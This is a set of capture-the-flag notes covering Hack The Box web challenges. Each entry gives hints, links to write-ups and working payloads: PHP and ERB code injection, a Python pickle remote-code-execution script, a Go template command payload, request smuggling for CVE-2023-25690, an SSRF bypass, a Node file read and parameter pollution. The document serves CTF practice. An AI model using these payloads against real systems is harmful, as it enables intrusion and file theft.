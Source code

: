 **01 web_lovetok:**

 - Link: https://app.hackthebox.com/challenges/lovetok
 - Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
 - Explanation: 
	1. http://178.62.11.21:30505/: This is the base URL.
    2. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
   3. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
   4. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
   5. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
 - Link: https://app.hackthebox.com/challenges/toxic
 -  Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
 - Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
     
**03 Neonify:**
    

 - Link: https://app.hackthebox.com/challenges/neonify
 - Hint: Encode With url Encoding.
	 - <%= File.open('flag.txt').read %> # Read file
 -  Solution: 
	 - ```curl 159.65.20.166:32127 \ -s -X POST -d 'neon=a %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'```
 -  Explanation: https://drt.sh/posts/htb-neonify/

             
   
    
**05 COP:**
    

 - Link: https://app.hackthebox.com/challenges/cop
 - Hint: No Flag value in DB, use script
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```
 - Steps:
	 - run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
 - Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    

 - Link: https://app.hackthebox.com/challenges/renderquest
 - Hint: Prepare A malicious Like that can have Command in it
	 1. go https://webhook.site/    	
	 2. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	 3. Modify it as you go
 - Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
 - Link: https://app.hackthebox.com/challenges/ApacheBlaze
 - Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: localhost:1337

-----------------------------------
Reminder for encoding : 

\r\n     ->  %0d%0a
\r\n\r   ->  %0d%0a%0d
```
 - 	After Url Encoding
```
   GET
   /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
   ```
- Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45

**07 ProxyAsAService:**
- Link: https://app.hackthebox.com/challenges/proxyasaservice
- Hint: Bypass Local Host IP. Flag Stored in debug/environment
- Solution:
   		```
	 	http://159.65.20.166:32723/?url=@0.0.0.0:1337/debug/environment
		```
- Explanation: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-proxyasservice-ed593e9f179b

**08 JScalc:**
- Link: https://app.hackthebox.com/challenges/jscalc
- Hint: Read Function In JS.
- Solution:
  	```
   {
   	"formula":"require('fs').readFileSync('/flag.txt').toString();"
   }
   	```
- Explanation: https://medium.com/@tanish.saxena26/hackthebox-jscalc-95c0435c849d

**10 HTBank:**
- Link: https://app.hackthebox.com/challenges/htbank
- Hint: HTTP Parameter Pollution.
- SolutionL:
- 	In a request just add one more amount parameter with the value of 1337.
```
			----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="account"
			
			0x038f3bed54d3d0ed704fff0bede93ae2
			-----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="amount"
			
			0
			
			-----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="amount"
			
			1337
			-----------------------------372602692120017375223068472451--
```
  -	after that, the ending of the request will be like this, and in response, you will get "OK".
  -	now refresh the page.
- Explanation: Watch any parameter pollution video/writeUP.
